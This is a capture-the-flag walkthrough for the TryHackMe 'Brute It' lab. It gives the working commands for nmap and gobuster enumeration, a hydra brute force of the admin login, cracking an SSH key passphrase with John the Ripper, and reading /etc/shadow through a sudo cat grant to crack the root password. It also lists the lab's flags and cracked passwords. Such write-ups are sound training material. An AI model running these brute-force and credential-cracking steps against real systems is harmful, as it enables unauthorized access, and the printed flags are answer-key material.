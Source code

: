 # [Challenge](https://tryhackme.com/room/bruteit)

- # ENUM
	- ### nmap(`sudo nmap -sS -sV -A -p- -T4 bruteIt`)
		- ```PORT   STATE    SERVICE  VERSION
			22/tcp open     ssh      OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
			| ssh-hostkey: 
			|   2048 4b:0e:bf:14:fa:54:b3:5c:44:15:ed:b2:5d:a0:ac:8f (RSA)
			|   256 d0:3a:81:55:13:5e:87:0c:e8:52:1e:cf:44:e0:3a:54 (ECDSA)
			|_  256 da:ce:79:e0:45:eb:17:25:ef:62:ac:98:f0:cf:bb:04 (ED25519)
			71/tcp filtered netrjs-1
			80/tcp open     http     Apache httpd 2.4.29 ((Ubuntu))
			|_http-title: Apache2 Ubuntu Default Page: It works
			|_http-server-header: Apache/2.4.29 (Ubuntu)
			Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel```
	- ### gobuster (`gobuster dir -w /usr/share/wordlists/directory-list-lowercase-2.3-big.txt -u http://bruteIt -x .html,.js,.txt,.php,.css`)
		- #### DIRECTORIES
			- `/admin`
		- #### FILES
			- `/index.html`

- # EXPLOITATION
	- Use hydra for bruteforcing password (username: admin): `hydra -l admin -P /usr/share/wordlists/rockyou.txt bruteIt http-post-form "/admin/index.php:user=^USER^&pass=^PASS^:F=Username or password invalid" -t 64 -V -I`
		- password: `xavier`
			- `THM{brut3_f0rce_is_e4sy}`
	- http://bruteit/admin/panel/id_rsa -> John's RSA private key!
		- Let's use `johntheripper`
			- `ssh2john id_rsa > id_rsa.hash`
			- `john id_rsa.hash`
				- password: `rockinroll`
	- Let's log into SSH (`chmod 600 id_rsa` -> `ssh -i id_rsa john@bruteit`)
		- `THM{a_password_is_not_a_barrier}`

- # PRIVILEGE ESCALATION
	- `sudo -l`
		- `/bin/cat` as root! Let's check `/etc/shadow`.
			- Let's copy all the `/etc/shadow` file (SHA-512) and run `johntheripper` again:
				- `john hashes`
					- password: `football`
	- `su root`
		- We're root now!
